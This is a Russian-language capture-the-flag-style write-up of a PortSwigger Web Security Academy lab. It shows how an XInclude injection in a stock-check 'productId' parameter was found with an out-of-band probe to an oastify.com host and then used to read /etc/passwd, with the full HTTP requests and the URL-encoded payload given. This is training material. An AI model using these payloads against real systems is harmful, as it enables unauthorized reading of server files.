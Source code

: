 Эта лаборатория содержит уязвимость, которая позволяет вам читать произвольные файлы с сервера. Чтобы решить эту лабораторию, извлеките содержимое `/etc/passwd`в течение 10 минут.

## Дано

уязвимость которая позволяет читать произвольные файлы с сервера.

время 10 минут на выполнение

## Задача

 извлечь содержимое `/etc/passwd`

# Решение 

Бегло пробежаться по функционалу сайту и просмотреть какие запросы от нас уходят и что нам отправляет сервер

Мы нашли такой запрос
```
POST /product/stock HTTP/2
Host: 0aca00bf03b07bb380a20d1200310064.web-security-academy.net
Cookie: session=QRd7UQDJmmmrOHhcUqp9ceJLra5s3wjM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0aca00bf03b07bb380a20d1200310064.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0aca00bf03b07bb380a20d1200310064.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

productId=1&storeId=1
```

В котором активное сканирование нашло уязвимость Out-of-band resource load (HTTP) и XML 
![[Pasted image 20250210112258.png]]

## XML 

Параметр `productId` уязвим к XML-инъекции. На сервер был отправлен следующий вредоносный payload:
```
<aic xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="http://ukieu5axvljf6bs12zfstgg48veo2fqge81ypn.oastify.com/foo"/>
</aic>
```
Этот payload содержит XML, который ссылается на URL внешнего домена. Приложение взаимодействовало с этим доменом, что указывает на то, что парсер обработал внедрённый XML.

#### Формируем полезную нагрузку
```
POST /product/stock HTTP/2
Host: 0aca00bf03b07bb380a20d1200310064.web-security-academy.net
Cookie: session=QRd7UQDJmmmrOHhcUqp9ceJLra5s3wjM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0aca00bf03b07bb380a20d1200310064.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0aca00bf03b07bb380a20d1200310064.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

productId=%3caic%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%0d%0a%20%20%3cxi%3ainclude%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%20parse%3d%22text%22%2f%3e%0d%0a%3c%2faic%3e&storeId=1
```

```
%3caic%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%0d%0a%20%20%3cxi%3ainclude%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%20parse%3d%22text%22%2f%3e%0d%0a%3c%2faic%3e

это

<aic xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</aic>
```